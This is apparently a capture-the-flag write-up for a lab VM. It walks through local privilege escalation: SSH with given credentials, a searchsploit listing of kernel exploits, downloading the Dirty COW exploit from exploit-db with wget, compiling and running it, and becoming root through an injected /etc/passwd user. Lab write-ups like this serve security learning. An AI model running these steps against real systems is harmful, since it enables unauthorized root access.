 # Writeup2

The first step it to use the credentials of laurie which we got in writeup1.md.

ssh laurie@172.16.129.137
password : 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

Then we check the version of the linux kernel with :

```
uname -r
```

output : 3.2.0-91-generic-pae

Kernel version is 3.2.

Using searchsploit on the host machine, we check the possible vulnerabilites of the 3.2 version.


```
searchsploit linux kernel 3.2.0-91
```

output :

------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                                          |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Linux Kernel (Solaris 10 / < 5.10 138888-01) - Local Privilege Escalation | solaris/local/15962.c


Linux Kernel 2.6.22 < 3.9 (x86/x64) - 'Dirty COW /proc/self/mem' Race Condition Privilege Escalation (SUID Method) | linux/local/40616.c

Linux Kernel 2.6.22 < 3.9 - 'Dirty COW /proc/self/mem' Race Condition Privilege Escalation (/etc/passwd Method) | linux/local/40847.cpp

Linux Kernel 2.6.22 < 3.9 - 'Dirty COW PTRACE_POKEDATA' Race Condition (Write Access Method) | linux/local/40838.c

Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method) | linux/local/40839.c

Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' /proc/self/mem Race Condition (Write Access Method) | linux/local/40611.c

Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64) - 'Mempodipper' Local Privilege Escalation (1) | linux/local/18411.c

Linux Kernel 2.6.39 < 3.2.2 (x86/x64) - 'Mempodipper' Local Privilege Escalation (2) | linux/local/35161.c

Linux Kernel 3.0 < 3.3.5 - 'CLONE_NEWUSER|CLONE_FS' Local Privilege Escalation | linux/local/38390.c

Linux Kernel 3.14-rc1 < 3.15-rc4 (x64) - Raw Mode PTY Echo Race Condition Privilege Escalation | linux_x86-64/local/33516.c

Linux Kernel 4.10.5 / < 4.14.3 (Ubuntu) - DCCP Socket Use-After-Free | linux/dos/43234.c

Linux Kernel 4.8.0 UDEV < 232 - Local Privilege Escalation | linux/local/41886.c

Linux Kernel < 3.16.1 - 'Remount FUSE' Local Privilege Escalation | linux/local/34923.c

Linux Kernel < 3.16.39 (Debian 8 x64) - 'inotfiy' Local Privilege Escalation | linux_x86-64/local/44302.c

Linux Kernel < 3.4.5 (Android 4.2.2/4.4 ARM) - Local Privilege Escalation | arm/local/31574.c

Linux Kernel < 3.5.0-23 (Ubuntu 12.04.2 x64) - 'SOCK_DIAG' SMEP Bypass Local Privilege Escalation | linux_x86-64/local/44299.c

Linux Kernel < 3.8.9 (x86-64) - 'perf_swevent_init' Local Privilege Escalation (2) | linux_x86-64/local/26131.c

Linux Kernel < 3.8.x - open-time Capability 'file_ns_capable()' Local Privilege Escalation | linux/local/25450.c

Linux Kernel < 4.10.13 - 'keyctl_set_reqkey_keyring' Local Denial of Service | linux/dos/42136.c

Linux kernel < 4.10.15 - Race Condition Privilege Escalation | linux/local/43345.c

Linux Kernel < 4.11.8 - 'mq_notify: double sock_put()' Local Privilege Escalation | linux/local/45553.c

Linux Kernel < 4.13.1 - BlueTooth Buffer Overflow (PoC) | linux/dos/42762.txt

Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation | linux/local/45010.c

Linux Kernel < 4.14.rc3 - Local Denial of Service | linux/dos/42932.c

Linux Kernel < 4.15.4 - 'show_floppy' KASLR Address Leak | linux/local/44325.c

Linux Kernel < 4.16.11 - 'ext4_read_inline_data()' Memory Corruption | linux/dos/44832.txt

Linux Kernel < 4.17-rc1 - 'AF_LLC' Double Free | linux/dos/44579.c

Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation | linux/local/44298.c
Linux Kernel < 4.4.0-21 (Ubuntu 16.04 x64) - 'netfilter target_offset' Local Privilege Escalation | linux_x86-64/local/44300.c

Linux Kernel < 4.4.0-83 / < 4.8.0-58 (Ubuntu 14.04/16.04) - Local Privilege Escalation (KASLR / SMEP) | linux/local/43418.c

Linux Kernel < 4.4.0/ < 4.8.0 (Ubuntu 14.04/16.04 / Linux Mint 17/18 / Zorin) - Local Privilege Escalation (KASLR / SMEP) | linux/local/47169.c

Linux Kernel < 4.5.1 - Off-By-One (PoC) | linux/dos/44301.c

------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------

We chose the Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method) exploit.

searchsploit is a tool used to find exploits available on https://www.exploit-db.com, the output Name is the same as the one on the website.

We filter by name and find it : https://www.exploit-db.com/exploits/40839

Let's copy the content of the code inside a new C programming file, diry_cow.c :

```
wget --no-check-certificate https://www.exploit-db.com/download/40839 -O dirty_cow.c
```

Comments inside dirty_cow.c explain how to compile and run the binary :

Compile with:
```
 gcc -pthread dirty.c -o dirty -lcrypt
```

Then run the newly create binary by either doing:
```
  ./dirty or ./dirty my-new-password
```

Doing as instructed :

```
./dirty
```

output :
  /etc/passwd successfully backed up to /tmp/passwd.bak
  Please enter the new password:

Let's use the character 'q' as new password.

output :

Complete line:
firefart:fi86Ixhn/lTi2:0:0:pwned:/root:/bin/bash

mmap: b7fda000


Terminating the program with ^C, we identify as the new user and provide the newly created password :

```
su firefart
```
password : q

We see we changed user :
firefart@BornToSecHackMe:/home/laurie#

```
whoami
```
output:
firefart

Let's confirm we have escalated to root and succeeded :

```
id
```
output:
uid=0(firefart) gid=0(root) groups=0(root)


